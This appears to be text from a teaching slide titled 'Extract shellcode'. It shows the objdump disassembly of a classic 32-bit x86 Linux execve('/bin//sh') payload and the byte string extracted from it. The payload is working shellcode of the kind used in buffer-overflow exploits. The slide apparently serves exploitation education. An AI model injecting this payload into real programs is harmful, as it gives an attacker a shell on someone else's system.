

# Extract shellcode
080483db <shellcode>:
 80483db:       55              push   %ebp
 80483dc:       89 e5           mov    %esp,%ebp
 80483de:       31 c0           xor    %eax,%eax
 80483e0:       50              push   %eax
 80483e1:       68 2f 2f 73 68  push   $0x68732f2f
 80483e6:       68 2f 62 69 6e  push   $0x6e69622f
 80483eb:       89 e3           mov    %esp,%ebx
 80483ed:       50              push   %eax
 80483ee:       53              push   %ebx
 80483ef:       89 e1           mov    %esp,%ecx
 80483f1:       99              cltd
 80483f2:       b0 0b           mov    $0xb,%al
 80483f4:       cd 80           int    $0x80
 80483f6:       90              nop
 80483f7:       5d              pop    %ebp
 80483f8:       c3              ret

SHELLCODE = "
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"